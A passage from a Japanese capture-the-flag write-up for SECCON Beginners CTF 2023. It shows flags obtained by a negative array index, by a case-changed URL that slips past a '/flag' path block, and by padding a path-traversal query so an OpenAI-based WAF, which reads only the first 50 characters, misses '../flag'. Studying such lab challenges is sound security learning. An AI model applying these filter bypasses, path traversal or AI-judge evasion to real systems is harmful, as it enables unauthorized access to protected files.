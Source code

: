 
```
❯ nc poem.beginners.seccon.games 9000
Number[0-4]: -4
ctf4b{y0u_sh0uld_v3rify_the_int3g3r_v4lu3}
```


## web


### Forbidden

{{ image(src="https://fs.arch4e.com/blog/writeup_seccon_beginners_ctf_2023/Forbidden.png", alt="screenshot - probrem", position="center", style="width: 50vw") }}

`/flag` にアクセスするとFLAGを入手できるが、URLに `/flag` が含まれていると弾かれる。  
`/FLAG` にアクセスすることでブロックを回避しアクセスを通すことができる。

```js
const block = (req, res, next) => {
    if (req.path.includes('/flag')) {
        return res.send(403, 'Forbidden :(');
    }

    next();
}

app.get("/flag", block, (req, res, next) => {
    return res.send(FLAG);
})

var server = app.listen(PORT, HOST, () => {
    console.log("Listening:" + server.address().port);
});
```

```
❯ curl https://forbidden.beginners.seccon.games/flag
Forbidden :(

❯ curl https://forbidden.beginners.seccon.games/FLAG
ctf4b{403_forbidden_403_forbidden_403}
```


### aiwaf

{{ image(src="https://fs.arch4e.com/blog/writeup_seccon_beginners_ctf_2023/aiwaf.png", alt="screenshot - probrem", position="center", style="width: 50vw") }}

flagはWeb Appのコンテンツがあるディレクトリよりひとつ上の階層に保存されている。  
パストラバーサルの可能性があるクエリや `flag` の文字列があるとAIによってブロックされる。

AIに送信するプロンプトはクエリ文字の先頭50文字のため、paddingを挿入して `../flag` を送信対象から外した。  

```python
import uuid
import openai
import urllib.parse
from flask import Flask, request, abort

# from flask_limiter import Limiter
# from flask_limiter.util import get_remote_address

##################################################
# OpenAI API key
KEY = "****REDACTED****"
##################################################
```